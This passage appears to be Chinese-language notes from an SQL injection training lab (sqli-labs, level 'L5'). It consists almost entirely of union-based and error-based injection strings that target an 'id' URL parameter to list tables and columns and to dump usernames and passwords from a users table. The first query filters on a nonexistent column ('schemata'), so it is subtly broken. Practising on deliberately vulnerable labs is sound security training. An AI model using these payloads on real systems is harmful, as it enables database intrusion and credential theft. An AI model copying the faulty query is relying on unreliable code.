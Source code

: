 

## 获取表名



```sql
/?id=1' union select 1,2,group_concat(table_name) from information_schema.tables where schemata=database() --+
```



## 获取列名



```sql
/?id=1' union select 1,2,group_concat(column_name) from information_schema.columns where table_name='users' --+
```



## 获取用户名与密码



```sql
/?id=1' union select 1,2,group_concat('|',username,' ',password,'|') from users --+
```





# L5



## 获取数据库名



```sql
/?id=-1' union select 1,count(*),concat((select schema_name from information_schema.schemata  limit 0,1),floor (rand()*2)) as a from information_schema.tables group by a --+
```



## 获取表名



```sql
/?id=-1' union select 1,count(*),concat((select table_name from information_schema.tables where table_schema=database()  limit 0,1),floor (rand()*2)) as a from information_schema.tables group by a --+
```

